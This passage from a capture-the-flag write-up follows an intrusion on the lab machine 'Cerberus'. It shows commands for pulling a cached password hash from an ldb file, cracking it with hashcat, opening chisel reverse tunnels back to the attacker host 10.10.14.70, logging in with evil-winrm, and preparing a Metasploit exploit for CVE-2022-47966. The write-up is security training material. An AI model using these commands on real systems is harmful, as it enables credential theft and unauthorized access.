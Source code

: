 ```bash
strings cache_cerberus.local.ldb
# Found a cached password for uid 1000 (matthew)
```

Cracking the hash was easy and was done in seconds

```bash
hashcat -a 0 -m 1800 hashes.txt /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt
```

### Moving Lateral

Last part of the journey to the first flag is to get onto the virtualization host. I already discovered that Port 5985(winrm) was open so I used chisel for portforwarding

```bash
# My Machine
chisel_lnx server -p 8001 --reverse

# Remote Target
chisel_lnx client 10.10.14.70:8001 R:5985:172.16.22.1:5985
```

Now it's time to use evil-winrm

```bash
evil-winrm -p 'CENSORED' -u 'matthew' -i 127.0.0.1
```

```powershell
*Evil-WinRM* PS C:\Users\matthew\Documents> whoami
cerberus\matthew
```

# Escalation

## Local Enumeration

First I checked **C:/Program Files(x86)** and discovered that ManageEngine ADSelfService Plus was installed.  
As far as I know there were several vulnerabilities reported last year so I assumed that I can use it to escalate privileges.  

## Remote Code Execution (CVE-2022-47966)

You can read more about the vulnerability [HERE](https://www.manageengine.com/security/advisory/CVE/cve-2022-47966.html)

Not a fan of metasploit but I'll use it this time due to it's reliable exoploit. 

First let's start with establishing a new chisel session.  

```bash
# My Machine
chisel_lnx server -p 8002 --reverse

# Remote Target
chisel_win.exe client 10.10.14.70:8002 R:1080:socks
```
